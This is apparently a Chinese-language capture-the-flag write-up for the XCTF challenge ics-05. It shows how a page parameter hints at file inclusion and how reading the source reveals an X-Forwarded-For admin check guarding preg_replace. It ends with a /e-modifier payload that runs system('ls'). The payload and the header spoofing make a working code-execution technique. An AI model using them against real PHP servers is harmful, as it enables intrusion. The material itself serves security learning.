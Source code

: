 # 攻防世界 ics-05(难度3)php伪协议查看源码

## 思路

- 上来发现下面的页面，然后就不知道咋整了，尝试了很多种方法，这里其实应该想到，page=index，可能存在文件包含，用伪协议读取源码

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29405061/1681978351642-048d6374-8880-478e-b5bf-e48e3953b97f.png#averageHue=%23fcfcfc&clientId=uee83148e-fe68-4&from=paste&height=434&id=u1dcd9e55&originHeight=868&originWidth=1921&originalType=binary&ratio=2&rotation=0&showTitle=false&size=84335&status=done&style=none&taskId=u19392342-0358-428f-8f1d-340b42ea75d&title=&width=960.5)

## wp

- 伪协议读源码

```php
if ($_SERVER['HTTP_X_FORWARDED_FOR'] === '127.0.0.1') {

    echo "<br >Welcome My Admin ! <br >";

    $pattern = $_GET[pat];
    $replacement = $_GET[rep];
    $subject = $_GET[sub];

    if (isset($pattern) && isset($replacement) && isset($subject)) {
        preg_replace($pattern, $replacement, $subject);
    }else{
        die();
    }

}
```

- 发现危险函数preg_replace，当`$pattern`指定模式为`/e`时，`$replacement`会被当做php代码执行

```php
$pattern=/test/e&$replacement=system('ls')&subject=test
```

# 